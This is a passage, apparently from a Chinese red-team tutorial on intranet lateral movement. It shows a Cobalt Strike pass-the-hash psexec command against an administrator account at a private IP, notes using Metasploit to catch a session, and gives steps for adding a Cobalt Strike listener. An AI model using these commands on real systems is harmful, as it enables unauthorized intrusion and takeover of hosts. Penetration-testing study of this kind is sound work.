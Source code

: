 ```plain
shell psexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178
```

[![](assets/1702372940-a9da75025298b2c47fda3a34362d83a0.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/11.png)

因cs无法操作交互式命令，也可引用`MSF`回显反弹接受会话  
CS创建监听

CS 添加listener  
左上角，`cobalt strike -> listeners -> ADD`

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)
